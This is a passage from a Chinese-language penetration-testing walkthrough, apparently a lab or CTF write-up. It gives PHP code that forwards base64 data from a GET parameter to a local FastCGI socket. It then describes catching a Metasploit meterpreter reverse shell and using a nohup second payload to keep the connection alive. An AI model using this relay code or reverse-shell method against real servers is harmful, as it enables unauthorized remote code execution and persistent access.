 ```php
        print_r($e);
    }
    fclose($fp);
}
```

如果是监听本地 `9000` 端口，可以使用 `fsockopen` 协议来发送 fastcgi 协议数据，具体就是：
```php
<?php
ini_set("display_errors", "On");
error_reporting(E_ALL);

$fp = fsockopen("127.0.0.1", 9000, $errno, $errstr, 30);
$url = $_GET['url'];

if (!$fp) {
    echo "Error: $errstr ($errno)<br />\n";
} else {
	try {
	    fwrite($fp, base64_decode($_GET['url']));
		var_dump(fread($fp, 8192));
	} catch (Exception $e) {
		print_r($e);
	}
    fclose($fp);
}
```

然后打开 `msfconsole` 开启反向连接监听：

![msf-listen-reverse-tcp](https://img-blog.csdnimg.cn/290fa18c63d24ee2bcabc4a7a1ac83a0.png)

然后本地用浏览器访问一下服务器中的发送 fastcgi 的 php 程序，并凭借上要发送的数据：

![front-msf-reverse-link](https://img-blog.csdnimg.cn/eeb5e14d4c33489597a8da4d03ca7725.png)

正常情况页面会持续加载中，然后 msf 这边就会收到连接请求并进入 `meterpreter shell`，然后看一下系统信息，nice，直接进入 `shell` 进行下一步操作：

![msf-meter-sysinfo](https://img-blog.csdnimg.cn/9c15cb50123d4937ae6885d0fa918403.png)

因为之前说这里的 php 建立的连接只有不到一分钟时间，`.so` 文件执行的指令也不例外，所以这里就到了**争分夺秒**考验手速的时刻了，先断开连接待会重来，然后这次需要准备第二个 `payload` 传到同目录下，为了节省时间可以在第一次连接前以后台任务运行（`run -j`）`meterpreter` 反向监听，这样就不会浪费时间再去切换 `module` 和设置 `payload` 再运行了：

![msf-run-meter-job](https://img-blog.csdnimg.cn/19a345aab60d4ab29da66cc7bc33ebaf.png)

在网页请求后建立第一个 `payload` 连接，然后迅速进入 `shell` 执行一个 `nohup` 后台任务来运行刚才上传的第二个 `payload`：

![msf-link-payload-2](https://img-blog.csdnimg.cn/20f6d91c48114731b4de924525a13804.png)

不出意外第二个 `payload` 的监听任务就会建立连接，并且是持续的**长连接**，第一个连接关掉也无所谓，后面就能愉快地进行其他操作了 (ง •_•)ง


## Linux 提权（Privilege Escalation）
